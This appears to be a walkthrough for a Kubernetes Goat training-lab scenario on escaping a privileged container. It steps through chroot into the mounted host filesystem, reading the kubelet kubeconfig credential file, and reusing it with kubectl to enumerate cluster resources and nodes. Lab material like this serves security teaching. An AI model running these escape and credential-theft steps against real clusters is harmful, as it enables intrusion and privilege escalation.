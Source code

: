 # Setup of Kubernetes Goat, from https://madhuakula.com/kubernetes-goat/

The goal of this scenario is to escape out of the running docker container on the host system using the available misconfigurations. The secondary goal is to use the host system-level access to gain other resources access and if possible even go beyond this container, node, and cluster-level access

After performing the analysis, you can identify that this container has full privileges of the host system and allows privilege escalation. As well as /host-system is mounted

````
capsh --print
```
```
mount
```
Now you can explore the mounted file system by navigating to the /host-system path

```
ls /host-system/
```

You can gain access to the host system privileges using chroot

```
chroot /host-system bash
```

The Kubernetes node configuration can be found at the default path, which is used by the node level kubelet to talk to the Kubernetes API Server. If you can use this configuration, you gain the same privileges as the Kubernetes node.

```
cat /var/lib/kubelet/kubeconfig
```

Using the kubelet configuration to list the Kubernetes cluster-wide resources

```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get all -n kube-system
```

You are able to obtain the available nodes in the Kubernetes cluster by running the following command:

```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get nodes
```